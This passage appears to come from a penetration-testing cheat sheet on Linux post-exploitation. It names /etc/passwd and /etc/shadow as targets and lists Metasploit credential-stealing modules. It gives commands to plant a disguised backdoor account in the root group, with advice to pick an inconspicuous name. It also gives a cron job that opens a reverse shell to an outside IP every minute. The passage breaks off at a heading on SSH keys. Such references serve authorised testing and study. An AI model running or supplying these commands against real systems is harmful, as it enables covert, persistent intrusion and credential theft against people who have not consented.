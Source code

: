 Interesting files :
- `/etc/passwd` : It contains users information.
- `/etc/shadow` : It contains hashed passwords.

### Metasploit

There are some useful post-exploitation modules :

- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk : **(Credentials such as Access-Point name and Pre-Shared-Key)**
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- `post/linux/gather/pptpd_chap_secrets` : **(VPN information such as client, server, passwords and IP).**
- post/linux/manage/sshkey_persistence


## Persistence

### Create new account

We will create a new account on the target's machine : 
```bash
# Create user :
useradd -m ftp -s /bin/bash

# Set password :
passwd ftp

# Add to root group :
usermod -aG root ftp

# Change user id (change 1001,1002,...) :
usermod -u 15 ftp
```

*Avoid account name like backdoor-account,root2,...*

### Cron Jobs

- Via Metasploit :
```bash
use exploit/linux/local/cron_persistence
```

- Manually :
```bash
# Create your command :
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.6.244.2/1234 0>&1'" > file
# Then, add to crontab :
crontab -i file
```

### SSH Keys
